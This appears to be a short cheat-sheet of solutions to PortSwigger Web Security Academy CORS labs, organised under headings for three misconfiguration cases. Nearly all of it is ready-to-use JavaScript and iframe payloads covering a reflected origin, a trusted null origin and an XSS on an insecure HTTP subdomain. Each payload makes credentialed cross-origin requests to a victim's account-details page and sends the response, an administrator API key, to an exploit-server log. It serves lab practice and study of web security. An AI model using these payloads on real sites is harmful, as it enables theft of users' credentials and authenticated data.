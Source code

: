 ## Cross-origin resource sharing

CORS works, if:
**Access-Control-Allow-Credentials** header suggesting that it may support CORS.
**Origin: https://example.com** is reflected in the Access-Control-Allow-Origin header.

## Standard payload:
```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;     //retrieve the administrator's API key
    };
</script>
```

## CORS vulnerability with trusted null origin (set before Origin: null) :
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
## CORS vulnerability with trusted insecure protocols:

Origin: http://subdomain.lab-id

Open a product page, click Check stock and observe that it is loaded using a HTTP URL on a subdomain.
Observe that the productID parameter is vulnerable to XSS.

```
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

https://portswigger.net/web-security/cors/lab-breaking-https-attack
